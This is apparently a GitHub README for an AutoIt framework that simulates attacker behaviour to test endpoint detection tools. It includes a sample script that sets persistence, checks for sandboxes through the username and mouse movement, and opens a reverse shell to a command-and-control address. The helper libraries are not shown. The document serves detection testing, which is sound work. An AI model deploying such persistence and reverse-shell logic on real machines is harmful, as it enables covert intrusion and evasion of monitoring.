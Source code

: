 # EDR Tester

## Introduction

Targeted attacks are not random in nature and are usually composed of different phases like infection, data exfiltration and persistency.
APT SimulActor is a little framework based on AutoIT libraries for basic EDR POCs.


## Example Flow

![flow](https://user-images.githubusercontent.com/24607076/70719514-0af56200-1cea-11ea-8167-4bbe872d525c.PNG)


**APT01**
```
#include "libs/settings.au3"
#include "libs/network.au3"
#include "libs/info.au3"
#include "libs/files.au3"
#include "libs/misc.au3"

$victim = "test"
$c2server = "192.168.0.1"
$c2port = "432"

if isRunningFromTemp() Then

   SetPersistent4CurrentUser()

   ReverseShell($c2server, $c2port)

Else

   if AmIusername($victim) Then

	  if InternetCheck() Then

		 if DetectMouseMoving() Then

			MessageBox("Debug","Hi!")

			CopyTempRun()

		 EndIf

	  EndIf

   EndIf

EndIf
```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)

